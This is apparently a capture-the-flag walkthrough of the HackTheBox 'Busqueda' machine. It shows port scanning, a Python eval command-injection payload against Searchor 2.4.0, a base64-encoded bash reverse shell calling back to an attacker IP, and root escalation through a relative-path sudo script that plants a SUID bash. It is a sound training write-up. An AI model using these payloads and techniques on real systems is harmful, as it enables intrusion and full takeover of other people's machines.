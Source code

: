 ```yaml
---
author: "0xt0pus"
title: "HackTheBox Busqueda machine Walkthrough"
date: "2025-01-20"
description: ""
tags: ["Hackthebox", "Machine-Walkthrough"]
cover:
    image: "/writeups/busqueda-HackTheBox/cover.jpg"
ShowToc: true
TocOpen: false
---
```



## Enumeration

Run nmap all port scanning with the following command:

```
nmap -p- 10.10.11.208 --min-rate 2500 -T4 -oN nmap/allPorts.txt
```

The following is the nmap all ports output:

![](/writeups/busqueda-HackTheBox/2.png)


As the port 22 and 80 are open. Now run the service enumeration to find out the version of services running on the target. 
The following command was used for the service version enumeration. 
```
nmap -A 10.10.11.208 -p 22,80 -oN nmap/ServiceVersion.txt
```

The result of the command shows below:
![](/writeups/busqueda-HackTheBox/3.png)

This shows the `searcher.htb` as the hostname. So updated it in the `/etc/hosts` file. 

Visited the website, which is being shown below:

![](/writeups/busqueda-HackTheBox/5.png)


At the end, the version of the Searchor is shown, which is `Searchor 2.4.0`. Quickly searched if there's any vulnerabilities related to this version. 
I came to know about the Command Injection vulnerability in this version and found an exploit code for that. 

The exploit code can be used to get a reverse shell in easy way. But there's another manual way, through which the command injection vulnerability can be exploited. I have explained both ways below. 

## Exploitation

### Reverse Shell Through the Exploit Code:

The `exploit.sh` is being downloaded from the following Github repository. 
Link: https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

Command:
```
./exploit.sh http://searcher.htb 10.10.16.17  # For Exploiting the Vulnerability
nc -lvnp 9001 # Listener for the reverse shell
```


The reverse shell is obtained as shown:
![[/writeups/busqueda-HackTheBox/6.png]]

### Reverse Shell in the Manual Way

Opened Burp Suite for gaining access in manual way. 

The site is sending POST request to `/search` with the parameters `engine` and `query` as shown below:
![[/writeups/busqueda-HackTheBox/7.png]]

Added a payload with the value of the query parameter to check if its behaviour changes with special characters. 

Added special character list by SecList as the list:
![[/writeups/busqueda-HackTheBox/8.png]]


After checking I found that it was not giving any result for the characters `' and \`. So, The logic here was, it was executing some python command like eval. 
The logic can be applied that it was doing something like this:
```
eval("print('a')")
```

So, according to the logic the following command will print `aHello`. 
```
a')+print("Hello")#
```

So, tried this

![[/writeups/busqueda-HackTheBox/9.png]]

It printed `Hello`. It means it is executing out python command. 
In order to get command execution I tried the following command:

```python
__import__('os').system('<CMD>')

__import__('os').system('id')

# Final Payload

a')+__import__('os').system('id')#

```

Run the above after URL encoding and we got a code execution as shown below:
![[/writeups/busqueda-HackTheBox/10.png]]

Now, we have to get a reverse shell somehow. 

I used the following bash reverse shell:
```bash
bash -i >& /dev/tcp/10.10.16.157/9001 0>&1


# Encoding it as Base64 

echo 'bash -i >& /dev/tcp/10.10.16.157/9001 0>&1' | base64

```

The final Payload:
```bash
┌──(root㉿kali)-[~/Desktop/htb/Busqueda]
└─# echo 'bash -i &> /dev/tcp/10.10.16.17/9001  0>&1  ' | base64
YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNi4xNy85MDAxICAwPiYxICAK
```

The following will be send as the request
```
a')+__import__('os').system('echo "YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNi4xNy85MDAxICAwPiYxICAK" | base64 -d | bash')#
```

Got the reverse shell as shown below:
![[/writeups/busqueda-HackTheBox/11.png]]


## Privilege Escalation 

After gaining the initial access, I explored the current directory. It contain a .git folder. The config of the git repository contains a password as shown below:
![[/writeups/busqueda-HackTheBox/12.png]]


I tried logging in for the current user with SSH, and I was successful because this was the password for the current user svc. 
I checked for `Sudo` privilege escalation and found that the current user can run the `system-checkup.py` as root. 
The following shows the result of `sudo -l`:
![[/writeups/busqueda-HackTheBox/13.png]]


I tried, checking the content of this script, but the file was not readable by the current user as shown:

![[/writeups/busqueda-HackTheBox/15.png]]

The file can only be executed, so I tried executing the file as root user with the following command:

```
sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py
```

The following three commands can be executed with it as shown:
![[/writeups/busqueda-HackTheBox/16.png]]

Seems like the `docker-inspect` can not be executed as it is:
![[/writeups/busqueda-HackTheBox/17.png]]

I checked online for its usage and the following command can be used to get details:
```
docker inspect --format='{{json .Config}}' $INSTANCE_ID

# Adjust it according to our usage:

sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' 960873171e2e
```

Run the above command and got this data as shown:
![[/writeups/busqueda-HackTheBox/19.png]]

This gave us another password, which initially didn't understand. But after further enumeration, I figured out that there was another website running on the `gitea.searcher.htb`. This was found on the apache2 enabled sites as shown:
![[/writeups/busqueda-HackTheBox/20.png]]


Added this website in the `/etc/hosts` as well and visited it. This was asking for the username and password. So, used administrator as the username and the above found password as the password. I was able to logged in as an administrator here. 

The script we found earlier were listed here and were readable as shown below:
![[/writeups/busqueda-HackTheBox/21.png]]

So, we can analyse these files to find any vulnerability. 

It is found that when the `full-checkup` argument is provided to the script, it runs `./full-checkup.sh` without full path. So, we can create our own file in any writeable directory and can get reverse shell as root, as root will be executing that file. 


The vulnerable part of the code:
![[/writeups/busqueda-HackTheBox/23.png]]


Created the following code in the `/dev/shm` with name `full-checkup.sh`:
```bash
#!/bin/bash
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```

The execute permission is being given to the script and run the following command:
```
sudo -u root /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Now, the root shell is copied to the `/tmp` folder as shown below. The bash shell is being used with the following command.

```bash
/tmp/bash -p
```

The following shows the result of the commands:
![[/writeups/busqueda-HackTheBox/24.png]]

So, this gives us root access of the machine. 